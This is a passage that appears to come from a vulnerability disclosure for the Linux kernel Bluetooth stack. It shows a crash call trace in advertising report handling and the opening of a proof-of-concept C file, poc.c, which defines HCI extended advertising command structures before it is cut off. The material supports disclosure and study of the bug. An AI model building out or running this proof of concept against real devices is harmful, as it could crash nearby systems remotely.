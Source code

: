    ```
   [  118.491079] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
   [  118.491081] CR2: 00007feed125a000 CR3: 00000001b860a003 CR4: 00000000003606e0
   [  118.491083] Call Trace:
   [  118.491108]  process_adv_report+0x12e/0x560 [bluetooth]
   [  118.491128]  hci_le_meta_evt+0x7b2/0xba0 [bluetooth]
   [  118.491134]  ? __wake_up_sync_key+0x1e/0x30
   [  118.491140]  ? sock_def_readable+0x40/0x70
   [  118.491143]  ? __sock_queue_rcv_skb+0x142/0x1f0
   [  118.491162]  hci_event_packet+0x1c29/0x2a90 [bluetooth]
   [  118.491186]  ? hci_send_to_monitor+0xae/0x120 [bluetooth]
   [  118.491190]  ? skb_release_all+0x26/0x30
   [  118.491207]  hci_rx_work+0x19b/0x360 [bluetooth]
   [  118.491211]  ? __schedule+0x2eb/0x740
   [  118.491217]  process_one_work+0x1eb/0x3b0
   [  118.491221]  worker_thread+0x4d/0x400
   [  118.491225]  kthread+0x104/0x140
   [  118.491229]  ? process_one_work+0x3b0/0x3b0
   [  118.491232]  ? kthread_park+0x90/0x90
   [  118.491236]  ret_from_fork+0x35/0x40
   ```

### poc.c

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define OCF_LE_SET_EXTENDED_ADVERTISING_PARAMETERS	0x2036
typedef struct {
	uint8_t  handle;
	uint16_t evt_properties;
	uint8_t  min_interval[3];
	uint8_t  max_interval[3];
	uint8_t  channel_map;
	uint8_t  own_addr_type;
	uint8_t  peer_addr_type;
	uint8_t  peer_addr[6];
	uint8_t  filter_policy;
	uint8_t  tx_power;
	uint8_t  primary_phy;
	uint8_t  secondary_max_skip;
	uint8_t  secondary_phy;
	uint8_t  sid;
	uint8_t  notif_enable;
} __attribute__ ((packed)) le_set_extended_advertising_parameters_cp;
#define LE_SET_EXTENDED_ADVERTISING_PARAMETERS_CP_SIZE 25

#define OCF_LE_SET_EXTENDED_ADVERTISING_DATA		0x2037
typedef struct {
	uint8_t  handle;
	uint8_t  operation;
	uint8_t  fragment_preference;
	uint8_t  data_len;
	uint8_t  data[0];
} __attribute__ ((packed)) le_set_extended_advertising_data_cp;
#define LE_SET_EXTENDED_ADVERTISING_DATA_CP_SIZE 4

```